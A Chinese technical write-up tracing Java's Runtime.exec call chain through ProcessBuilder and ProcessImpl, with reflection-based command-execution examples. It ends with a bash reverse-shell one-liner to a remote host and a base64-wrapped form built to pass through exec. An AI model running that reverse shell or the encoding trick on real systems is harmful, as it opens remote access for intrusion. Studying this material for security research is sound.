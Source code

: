# 前言

在java中我们经常用到`Runtime.getRuntime.exec(command)`去执行命令,但是代码逻辑到底是什么,到底是怎么实现的,今天就想来总结一下

# Runtime命令执行分析

java的Runtime类下有6个重载了的exec方法

![image-20211215085935735](images/1.png)

```
public Process exec(String command) throws IOException
public Process exec(String command, String[] envp) throws IOException
public Process exec(String command, String[] envp, File dir) throws IOException
public Process exec(String cmdarray[]) throws IOException
public Process exec(String[] cmdarray, String[] envp) throws IOException
public Process exec(String[] cmdarray, String[] envp, File dir) throws IOException
```

## 测试代码

```
package cn.DawnT0wn.Exec;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.lang.Runtime;

public class RuntimeTest {
    public static void main(String[] args) throws IOException {
        //定义命令值
        String command = "whoami";
        //调用Runtime类
        Process p = Runtime.getRuntime().exec(command);//如果不是需要回显的命令,到这即可执行
        //获取p的输入流
        InputStream is = p.getInputStream();
        //将缓冲区的数据，转换成字节数组
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        byte[] bytes = new byte[1024];
        int size = 0;
        while ((size = is.read(bytes)) != -1){
            out.write(bytes,0,size);
        }
        System.out.println(out.toString());//后面的代码主要是为了看回显
    }
}
```

## 实现过程

下个断点调试一下

跟进getRuntime()

![image-20211215085133466](images/2.png)

一个静态方法可以直接调用,返回了一个静态值即Runtime的实例化对象

每次调用getRuntime()方法都会实例化一个Runtime对象

再跟进exec看看

![image-20211215085433894](images/3.png)

非静态方法,需要实例化对象才能调用,刚好,getRuntime方法返回了应该实例化对象调用这里的exec方法

返回值调用了另外的exec方法,继续跟进

![image-20211215090215936](images/4.png)

来到Runtime的另外一个exec方法,继续跟进到return还要返回另外的exec方法,再次跟进

![image-20211215090604084](images/5.png)

这里new了应该ProccessBuilder对象并且调用了start方法,继续跟进start

在start方法中一路跟进,会调用ProccessImpl类的静态方法start

![image-20211215090847631](images/6.png)

在这个start的137行又new了应该ProccessImpl对象

![image-20211215091341488](images/7.png)

跟进ProccessImpl的构造函数

一路跟进到

![image-20211215091722660](images/8.png)

在这个地方执行了命令

**调用流程**

1. public Process exec(String command)
2. public Process exec(String command, String[] envp, File dir)
3. public Process exec(String[] cmdarray, String[] envp, File dir)
4. ProcessBuilder.start()
5. ProcessImpl.start()
6. new ProcessImpl
7. creat()

# 反射调用Runtime执行命令

```
package cn.DawnT0wn.Exec;

import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Method;

public class ReflectionExec {
    public static void main(String[] args) throws Exception{
        String command = "whoami";
        Class cls = Class.forName("java.lang.Runtime"); //Runtime加载进内存
//        Constructor declaredConstructor = cls.getDeclaredConstructor(); //获取构造方法
//        declaredConstructor.setAccessible(true);  //暴力反射
//        Object o = declaredConstructor.newInstance(); //创建Runtime类
//        Method exec = cls.getMethod("exec", String.class); //获取exec方法，设置需要参数string类型参数
//        Process process = (Process) exec.invoke(o,command);   //执行exec方法，并传入calc.exe参数
        Object runtime = cls.getMethod("getRuntime").invoke(null);
        Process process = (Process) cls.getMethod("exec", String.class).invoke(runtime,command);
        System.out.println(process);
        InputStream is = process.getInputStream();    //获取输出的数据
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        byte[] bytes = new byte[1024];
        int size = 0;
        while ((size = is.read(bytes)) != -1){
            out.write(bytes,0,size);
        }
        System.out.println(out.toString());
    }
}
```

可以用上面的代码反射调用Runtime来执行命令

# ProcessBuilder类

前面Runtime类执行命令的时候调用了ProcessBuilder类的start函数,那是不是就可以直接调用start来执行命令了

```
package cn.DawnT0wn.Exec;

import java.io.ByteArrayOutputStream;
import java.io.InputStream;

public class ProcessBuilderTest {
    public static void main(String[] args) throws Exception{
        String command = "whoami";
        ProcessBuilder pro = new ProcessBuilder(command);
        Process p = pro.start();
        //获取p的输入流
        InputStream is = p.getInputStream();
        //将缓冲区的数据，转换成字节数组
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        byte[] bytes = new byte[1024];
        int size = 0;
        while ((size = is.read(bytes)) != -1){
            out.write(bytes,0,size);
        }
        System.out.println(out.toString());
    }
}
```

![image-20211215225238072](images/9.png)

# ProcessImpl类

同样的，Runtime类调用了执行命令的过程中调用了ProcessImpl类的start方法,那直接调用这个类的start方法也可以执行命令了

不过这个类并不是共有的

![image-20211215225537735](images/10.png)

所以我们只能通过反射去获取

```
package cn.DawnT0wn.Exec;

import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.lang.reflect.*;
import java.util.Map;

public class ProcessImplTest {
    public static void main(String[] args) throws Exception{
        String[] command = {"calc"};
        Class Pro = Class.forName("java.lang.ProcessImpl");
        Method method = Pro.getDeclaredMethod("start", String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
        method.setAccessible(true);
        Process p = (Process) method.invoke(null, command, null, ".", null, true);//静态方法,invoke不需要传入对象
        //获取p的输入流
        InputStream is = p.getInputStream();
        //将缓冲区的数据，转换成字节数组
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        byte[] bytes = new byte[1024];
        int size = 0;
        while ((size = is.read(bytes)) != -1){
            out.write(bytes,0,size);
        }
        System.out.println(out.toString());
    }
}

```

![image-20211215230900868](images/11.png)





使用Bash来反弹shell时由于`Runtime.getRuntime().exec()`中不能使用管道符等Bash需要的方法，故需要进行一次base64编码：`bash -i >& /dev/tcp/vps/2333 0>&1`：

最后的命令应该是

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45My4yNDguMjIxLzIzMzMgMD4mMQ==}|{base64,-d}|{bash,-i}
```

